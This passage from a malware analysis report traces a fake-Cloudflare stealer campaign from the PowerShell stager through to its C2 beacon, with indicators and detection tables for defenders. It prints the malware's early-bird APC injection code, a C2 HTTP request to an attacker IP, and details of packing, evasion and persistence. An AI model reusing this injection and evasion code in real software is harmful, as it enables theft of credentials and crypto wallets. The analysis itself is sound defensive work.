


_The second fake cloudflare_

That window is pure social engineering. The victim just did the "verification" on the website and now sees Cloudflare "finishing the check". They wait patiently while the background work happens.

After 120 seconds the stager cleans up. It deletes both tasks, deletes the HTML and **kills every other `powershell` and `mshta` process** on the machine. That last step is noisy, and it is a good detection opportunity.



The HTML from `undefined[.]vg` is still a mystery. The domain was registered on 2026-10-27, one day before the first campaign activity, and it now 301-redirects to `gmx.net`. I never recovered the content that `InitializeOnce` was supposed to execute.

### Did it reach this stage?

| Where | What to look for | Telemetry |
|---|---|---|
| Process | `powershell.exe` with `-WindowStyle Hidden` whose command line contains a string starting with `eyJhbGciOiJIUzI1NiIs` (a JWT on a command line) | Sysmon 1 / 4688 |
| Process | `conhost.exe --headless powershell.exe ... -ep Bypass -File` | Sysmon 1 / 4688 |
| Task | Task **`RobocopyOnce`** created, then deleted within minutes | Security 4698 / 4699, TaskScheduler 106 / 141 |
| Process | `robocopy.exe` copying `*.html` from `%TEMP%` to `%APPDATA%` | Sysmon 1 |
| File | `%TEMP%\a075645b3762542c756453cap5van.html`, then the same name in `%APPDATA%` | Sysmon 11 / 23 |
| Network | DNS / HTTP to `62.238.41[.]64` (raw IP, Hetzner HEL1) and `undefined[.]vg` | Sysmon 3 / 22 / firewall |
| UI | User reports a "Cloudflare Security Challenge" desktop window. Cloudflare never runs on your desktop. (Usually the user will not say anything xD)| Helpdesk tickets |
| Process | Mass termination of `powershell.exe` / `mshta.exe` about two minutes after the first PowerShell | EDR process-terminate events |

---

## 3. Stage 3: `velcap4b` / `velcap4d`, Fetching the Toolbox

| Variant | Size | SHA256 | Extract folder |
|---|---|---|---|
| Cap5 (`velcap4b`) | 8,066 B | `26fc8a42b68b3925a29bdbe88aa17ae8901eda97224104ef447463b50cfcae6c` | `%APPDATA%\RuntimeEnvironmentCap5` |
| VTC3 (`velcap4d`) | 8,810 B | `25d2dfc72c270f3874d962ab224d65b2c6790732825dc701ee5dc9a9519659f7` | `%APPDATA%\RuntimeEnvironmentVTC3` |

Stage 3 reuses the parent's `$vn`, decodes the JWT payload again and takes `part2` as its URL. It downloads from the raw IP with the same User-Agent. There is a retry loop with exponential backoff and an `HttpWebRequest` fallback for old PowerShell versions.

The response is base64. It is decoded, saved as `%APPDATA%\renv.zip` and extracted with the `Shell.Application` COM object (`CopyHere`) into `RuntimeEnvironmentCap5`. The entry point `cab.dat` is then piped into a hidden PowerShell through standard input (`powershell.exe -NoProfile -ep B -Command -`), so the script content never appears on a command line.





It also registers the second task, **`InitializeOnce`**. This task waits up to 450 seconds for the HTML dropped by stage 2 to land in `%APPDATA%`, executes its content with `iex`, deletes it and deletes itself. Stage 2 and stage 3 are therefore coordinated through the file system, which splits the behaviour across separate processes and separate tasks.



At the time of analysis `velcap4c` returned HTTP 200 with an empty body, so the operator had already rotated it. I recovered the same ZIP from the mirror `cloudmegaupload[.]com/velcap4e`.


_content of velcap4e_




_deocoded renv.zip_

### Did it reach this stage?

| Where | What to look for | Telemetry |
|---|---|---|
| Network | `GET /velcap4c` or `/velcap4e`, a ~660 KB text response starting with `UEsDB` (base64 of a ZIP) | Proxy |
| File | `%APPDATA%\renv.zip` | Sysmon 11 |
| File | Folder `%APPDATA%\RuntimeEnvironmentCap5\` or `RuntimeEnvironmentVTC3\` containing `PowerShell\cab*.dat` | Sysmon 11 |
| Process | `powershell.exe -NoProfile -ep B -Command -` (reading the script from stdin) | Sysmon 1 / 4688 |
| Task | Task **`InitializeOnce`** created with highest run level | Security 4698, TaskScheduler 106 |

---

## 4. Stage 4: The Toolkit Disguised as MinGW, and APC Injection into `pnputil.exe`

| Property | Value |
|---|---|
| Served blob `velcap4e` | 661,210 B, SHA256 `8119cca44e2e1f6241f063fb3fde4a1ce7d048cdb07f626392314141df40d154` |
| Decoded ZIP | 495,906 B, 84 entries, SHA256 `04f91d074d6007a4b1a1343d3bd05bfc0359a4413edbb55269e72092d8183cc8` |

Open the ZIP and the first thing you see is a `dt/` tree full of `COPYING` and `LICENSE` files for binutils, gcc, mingw-w64 and python. That is about 124 KB of filler so the archive looks like a developer toolchain. 


_content of dt/_

The real content sits under `PowerShell/`:

| File | Role |
|---|---|
| `cab.dat` (158 B) | Orchestrator. Points to the toolkit folder and runs `cab0.dat` |
| `cab0/cab0.dat` | Builds kernel32 P/Invokes at runtime, plus the `\xNN` shellcode parser `px()` |
| `cab1/cab1.dat` | The injector `go()` |
| `cab2/cab2.dat` | Trigger: reads the shellcode, calls `go()`, waits 6 s, deletes the whole toolkit |
| `dat/sc.score` | 8,489 lines of `\xNN` text that decode to 127,321 bytes of shellcode |


_content of PowerShell/_

`cab0.dat` uses `DefineDynamicAssembly` and `DefinePInvokeMethod` to import `CreateProcessA`, `VirtualAllocEx`, `WriteProcessMemory`, `QueueUserAPC`, `ResumeThread` and friends, with names split like `'Crea'+'te'+'Proc'+'ess'+'A'`. There is no `Add-Type` and no C# source on disk.

The injection itself in `cab1.dat` is textbook classic early-bird APC injection:

```powershell
$tg = Join-Path $env:WinDir "System32\pnputil.exe"
$ok = [aa.bt]::sp($tg, $null, 0, 0, $false, 4, 0, $env:WinDir, $si, $pi)   # 4 = CREATE_SUSPENDED
$rm = [aa.ss]::va($hp, 0, $sh.Length, 0x3000, 0x40)                        # RWX in pnputil
$wd = [aa.yt3]::wp($hp, $rm, $sh, $sh.Length, [ref]$nb)                    # write shellcode
$qd = [aa.qw]::qa($rm, $ht, 0)                                             # QueueUserAPC
$rs = [aa.bt]::rs($ht)                                                     # ResumeThread
[void][aa.bt]::wt($hp, 30000)                                              # wait 30 s
```



There is random jitter of 800 to 2,500 ms before and after the injection. Then `cab2.dat` sleeps six seconds and removes the whole `RuntimeEnvironment*` folder. By the time someone looks at the disk, the toolkit is gone.

Why `pnputil.exe`? It is Microsoft-signed, lives in `System32` and is a plug-and-play driver utility that nobody expects to talk to the internet. That makes it a good host for code that is about to make its first DNS query.

### Did it reach this stage?

| Where | What to look for | Telemetry |
|---|---|---|
| Process | **`pnputil.exe` whose parent is `powershell.exe`**. In normal life it is started by admins or installers, almost never by a hidden PowerShell. | Sysmon 1 / 4688 |
| Process | `pnputil.exe` with no arguments, alive for ~30-40 s | Sysmon 1 / 5 |
| Memory | Cross-process access from `powershell.exe` to `pnputil.exe` with write/operation rights; a private RWX region in `pnputil.exe` | Sysmon 10, EDR memory scan, pe-sieve |
| Network | **Any DNS query or TCP connection from `pnputil.exe`** | Sysmon 3 / 22 |
| File | `RuntimeEnvironmentCap5` / `VTC3` folder created and deleted within seconds | Sysmon 11 / 23 |
| Script | `DefinePInvokeMethod` together with `QueueUserAPC` in script-block logs | PowerShell 4104 |

---

## 5. Stage 5: The Shellcode That Is Actually a Packer

| Property | Value |
|---|---|
| Shellcode | 127,321 B, entropy 8.00, SHA256 `8f878a731a1560957f681f77c07171eb0e5d6dfc3c655cc225caf87edd7238b9` |
| Unpacked PE | 381,440 B, SHA256 `5b5d14c77a7ee2675a377515d1d58f7dcbf26a25cc91a28b257b4d7371de1373` |
| Compile time | 2026-10-29 18:27:08 UTC |



The layout is neat:

| Offset | Content |
|---|---|
| `0x00` | `E8 48 E6 01 00` call that lands exactly where the ciphertext ends |
| `0x05` | Output size `0x5D200` (381,440) |
| `0x09` | Encrypted length `0x1E5BF` |
| `0x0D` | 128-byte XOR key |
| `0x8E` | Encrypted body |
| `0x1E64D` | Plaintext decryptor + reflective PE loader |

The stub does `pop rcx` to learn its own base, walks the PEB and hashes export names with `h = h*31 + tolower(c)` from the seed `0x6C6C6A62` to find seven APIs (`VirtualAlloc`, `VirtualProtect`, `VirtualFree`, `LoadLibraryA`, `GetProcAddress`, `GetModuleHandleA`, `ExitProcess`). It XORs the body with the 128-byte key, then decompresses it with a **modified aPLib** that has inverted literal/match flags. Rather than hand-porting that, I ran the stub's own decompressor in Unicorn and dumped the output. Finally it maps the PE reflectively and calls its entry point.

The unpacked PE introduces itself as `svchost.exe`. It has only 16 static imports, and everything else is resolved at runtime. Its strings show BCrypt AES-GCM and 3DES-CBC, a `Bearer` authorization header, `X-Original-Size` and `image/jpeg` uploads for screenshots.

The real treasure is an **encrypted pool of 879 records**:

- **789 Chrome extension IDs**, including MetaMask, Phantom, Keplr, Rabby, Coinbase, OKX, Trust, Backpack, Zerion and Solflare.
- **87 desktop wallets** with file globs: Exodus (`seed*`, `passphrase*`, `*.seco`), Electrum, Ledger Live, Trezor Suite, Wasabi, Sparrow, Bitcoin/Litecoin Core, Coinomi, Tonkeeper and more.
- **Two HTML templates** that make an offline "Viber Export" viewer, which renders stolen contacts, chats, media and `DeviceKey` from an embedded JSON blob.

In my detonation, the first DNS query for `nvidia-update[.]cc` left the injected `pnputil.exe` **104 ms** after injection. In a control window of 60 seconds with no injection, and zero DNS queries.

### Did it reach this stage?

| Where | What to look for | Telemetry |
|---|---|---|
| Network | DNS for **`nvidia-update[.]cc`** (-> `91.148.190[.]70`), often three lookups ~3 s apart | Sysmon 22 / DNS logs |
| Network | DNS for `systemdriver-update[.]vg` (-> `31.58.179[.]60`) | Sysmon 22 / DNS logs |
| Memory | An unpacked PE in `pnputil.exe` with VERSIONINFO claiming `svchost.exe` | EDR memory scan, YARA `APT_VelCap_UnpackedPayload_x64` |
| Memory | Packed stub pattern (decompressor prologue + seed `0x6C6C6A62`) | YARA `APT_VelCap_PackedStub_x64` |
| File | `%TEMP%\tmp*\pip.zip` (pip bootstrap for the next stage) | Sysmon 11 |

---

## 6. Stage 6: Bring Your Own Python

The stage-5 PE does not steal by itself. It installs a full **Python 3.14 embeddable runtime** (about 51 MB) into `%APPDATA%\RuntimeEnvironment.revrog\`, with `cryptography`, `cffi` and `pycparser`. Two files in there matter:

| File | SHA256 | Role |
|---|---|---|
| `Python\systemcheck.pyw` | `1407a3b6595de0ce6ca391eec30a0fbafc94f5f8d8a99b0bc1ed7a34d1b83537` | The loader |
| `Python\Lib\site-packages\_cffi_backend.cp314-win_amd64.dat` | `63d9d70680f03ece2154ff37b3bb9bd6850b13b08865682317f3da3a62c161c2` | Encrypted next stage, hidden next to the real `.pyd` |

`systemcheck.pyw` is short and clear:

1. Reads the `.dat`, base64-decodes it, and AES-256-CBC decrypts it with the key `12345678901234567890123456789012`.
2. Starts `C:\Windows\System32\RuntimeBroker.exe` with `CREATE_SUSPENDED | CREATE_NO_WINDOW`.
3. `VirtualAllocEx` RWX, `WriteProcessMemory`.
4. `GetThreadContext`, sets `Rip` to the shellcode, `SetThreadContext`, `ResumeThread`.

This time it is **thread-execution hijacking**, not APC. Same goal, different technique, maybe to avoid detections tuned to the first one.

Persistence is a user-level scheduled task, no admin needed:

```text
Task    : \SystemDesignTask.RevRogPYS-<user SID>
Action  : %APPDATA%\RuntimeEnvironment.revrog\Python\pythonw.exe systemcheck.pyw
WorkDir : %APPDATA%\RuntimeEnvironment.revrog\Python
Context : Interactive, RunLevel Limited
```

There is also a leftover file, `build_openai`. It is a bash script that downloads and builds **obfuscator-llvm (OLLVM) 21.1.1**. It has no malicious function. It is a developer artifact shipped by mistake, and a small window into the operator's build pipeline. Also no Run keys, no services and no Startup-folder drops were created. The scheduled task is the only persistence I observed.

### Did it reach this stage?

| Where | What to look for | Telemetry |
|---|---|---|
| File | Folder **`%APPDATA%\RuntimeEnvironment.revrog\`** (or any `%APPDATA%\RuntimeEnvironment.*`) holding `python.exe` / `pythonw.exe` | Sysmon 11, EDR inventory |
| File | `systemcheck.pyw`, `build_openai` | Sysmon 11 |
| Task | Task name starting with **`SystemDesignTask.RevRogPYS-`** | Security 4698, TaskScheduler 106 |
| Process | `pythonw.exe` running from `%APPDATA%` | Sysmon 1 / 4688 |
| Process | **`RuntimeBroker.exe` whose parent is `pythonw.exe`.** The real one is started by `svchost.exe` (DcomLaunch). | Sysmon 1 / 4688 |

---

## 7. Stage 7: The RuntimeBroker Module and the C2

| Property | Value |
|---|---|
| Decrypted blob | 10,495 B, SHA256 `8598a81b9f6272bedf170c9dc97326577b54be88d00be000efa50cfd5a43b044` |
| Unpacked PE | 19,456 B, SHA256 `2e76534cfdcfc440fa86b012a74b79a0de5695b54b0a7de4b49872801d923090` |
| Compile time | 2026-10-27 20:28:56 |

The blob injected into `RuntimeBroker.exe` uses **the same packer** as stage 5: the same `E8` call locator, the same hash seed `0x6C6C6A62`, the same XOR-128 + aPLib framing. The same emulation harness unpacked it to a small PE with **zero imports**:

```text
127.0.0.1   4.7.9.8   velv   rog   172.96.160.208
RunClient   RsGetVersion   StopClient
SELECT  FROM  UNIQUE  PRIMARY  CHECK  CONSTRAINT  file:
kernel32 kernelbase combase user32 gdi32 advapi32 crypt32 bcrypt winhttp ws2_32 ...
```

So this module is a SQLite-querying stealer (browser databases) with a WinHTTP client. Runtime strings show it also injects into browsers. Interestingly, it skips injection when it sees a `--user-data-dir` switch ("browser: skip inject, use --user-data-dir"), and that switch is common in automated analysis setups. It creates a mutex `Global\RL_<suffix>` and exits if it already exists.

Then it calls home. I recovered the request from the injected process memory:

```http
GET /api/currentVersion HTTP/1.1
Connection: Keep-Alive
User-Agent: M/1.0
Host: 172.96.160[.]208
```

At the time, `netstat` showed `RuntimeBroker.exe` with established sessions to `172.96.160[.]208:80` and `:443`. The beacon body is a 7-byte `text/plain` payload. `nvidia-update[.]cc` resolved three times but never received a connection, so it may be a fallback or dead infrastructure.

From one paste in the Run dialog to a persistent, beaconing stealer took about **four minutes**.

### Did it reach this stage?

| Where | What to look for | Telemetry |
|---|---|---|
| Network | **Any traffic to `172.96.160[.]208`** on 80/443 | Firewall, NetFlow, Sysmon 3 |
| Network | HTTP User-Agent **`M/1.0`**, URI **`/api/currentVersion`** | Proxy |
| Process | **`RuntimeBroker.exe` making outbound connections**, or with a working directory under `%APPDATA%\RuntimeEnvironment*` | Sysmon 3, EDR |
| Memory | Mutex `Global\RL_*` | EDR / Handle |
| Memory | YARA `APT_VelCap_Stage6_Module_x64` hit in `RuntimeBroker.exe` | EDR memory scan |
| Behaviour | `RuntimeBroker.exe` opening browser `Login Data`, `Cookies`, `Local Storage`, `IndexedDB` or wallet folders | Sysmon 11 / file-access auditing |

**If you reach this box on any host, treat it as full compromise.** Assume wallets, browser sessions, cookies, saved passwords and Viber data are gone. Rotate credentials from a clean device and move crypto funds to new wallets with new seeds.

---

## 8. Threat Intelligence 

| Indicator | Fact |
